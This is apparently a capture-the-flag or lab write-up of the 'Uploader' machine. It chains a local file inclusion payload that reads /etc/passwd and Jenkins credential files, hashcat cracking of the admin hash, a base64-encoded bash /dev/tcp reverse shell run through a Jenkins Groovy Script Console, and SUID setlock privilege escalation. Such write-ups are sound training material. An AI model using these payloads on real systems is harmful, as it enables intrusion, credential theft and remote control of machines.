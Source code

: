 ```yaml
---
title: 'Uploader Writeup'
date: '2024-11-19'
tags: ['LFI', 'RCE', 'Linux']
draft: false
summary: 'The application has vulnerabilities of Local File Inclusion (LFI), Remote Code Execution (RCE) via Jenkins, and privilege escalation using a SUID binary.'
images: ['/static/images/uploader-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/uploader-writeup-images/default.png)

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a8:1f:3c:4b:d9:ee:93:28:2d:a3:b8:9f:f0:cf:17:37 (ECDSA)
|_  256 ac:e2:d9:11:33:bc:69:81:23:8a:35:ed:91:20:14:c8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Index
|_http-server-header: Apache/2.4.52 (Ubuntu)
8080/tcp open  http    Jetty 10.0.18
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(10.0.18)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports 80, 8080, and 22 are open.

---

## Enumeration

`http://172.16.10.47:80`

An image upload application.

![uploader](/static/images/uploader-writeup-images/image.png)

`http://172.16.10.47:8080`

Application running Jenkins.

I tried some default credentials, but was unsuccessful.

![uploader 1](/static/images/uploader-writeup-images/image1.png)

---

### Voltando ao servidor web na porta 80

I tried to use the feature to upload a PHP web shell, but it didn’t work as the application is validating.

![uploader 2](/static/images/uploader-writeup-images/image2.png)

So, I captured the request with Burp and started testing for LFI.

`....//....//....//....//....//....//etc/passwd`

![uploader 3](/static/images/uploader-writeup-images/image3.png)

LFI Found!

I tried escalating the LFI to RCE using log poisoning, but it was unsuccessful 😞.

Since the application running on port 8080 is Jenkins, we’ll use the LFI to read the server’s configuration files.

`/var/lib/jenkins/users/users.xml`

![uploader 4](/static/images/uploader-writeup-images/image4.png)

According to the **users.xml** file, there is another directory called **admin_10281833997561721098**. Inside this directory, we can access the Jenkins configuration file.

`/var/lib/jenkins/users/admin_10281833997561721098/config.xml`

![uploader 5](/static/images/uploader-writeup-images/image5.png)

With the hash in hand, we’ll use hashcat to try to crack it.

`hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt`

![uploader 6](/static/images/uploader-writeup-images/image6.png)

With the credentials **admin:ginger1**, we were able to log in to Jenkins.

![uploader 7](/static/images/uploader-writeup-images/image7.png)

---

## Foot Hold

Jenkins has a feature called **'Script Console'**, which we can exploit to run a reverse shell using Groovy Script.

`http://172.16.10.47:8080/manage/script`

![uploader 8](/static/images/uploader-writeup-images/image8.png)

In this case, the application does not execute the reverse shell for some reason, so the workaround was to encode the payload in base64 to make it work.

`echo "bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'" | base64`

![uploader 9](/static/images/uploader-writeup-images/image9.png)

Now just send it and grab the shell.

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMC4zMS4xNTAvMTMzNyA8JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

![uploader 10](/static/images/uploader-writeup-images/image10.png)

![uploader 11](/static/images/uploader-writeup-images/image11.png)

---

## Privillege Escalation

SUID `setlock`

`find / -type f -perm -04000 -ls 2>/dev/null`

![uploader 12](/static/images/uploader-writeup-images/image12.png)

`/usr/bin/setlock - /bin/sh -p`

![uploader 13](/static/images/uploader-writeup-images/image13.png)

### Referencia

https://gtfobins.github.io/gtfobins/setlock/#suid

---

## Proof

![uploader 14](/static/images/uploader-writeup-images/image14.png)
